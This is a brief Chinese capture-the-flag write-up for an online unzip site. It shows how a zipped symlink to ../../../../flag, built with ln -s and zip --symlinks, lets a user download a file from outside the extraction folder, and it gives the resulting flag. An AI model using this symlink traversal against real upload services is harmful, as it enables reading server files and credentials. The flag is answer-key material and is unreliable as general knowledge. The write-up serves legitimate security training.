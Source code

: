 # 在线解压网站

下载源码后，计算出Flag位置与解压缩路径的相对位置为`../../../../`。尝试将一个软链接到`../../../../flag`的软链接压缩

```bash
ln -s ../../../../flag .
zip --symlinks flag.zip flag
```

上传后点击`flag`链接即可下载到Flag文件`flag{Nev3r_trUSt_Any_c0mpresSed_File}`。
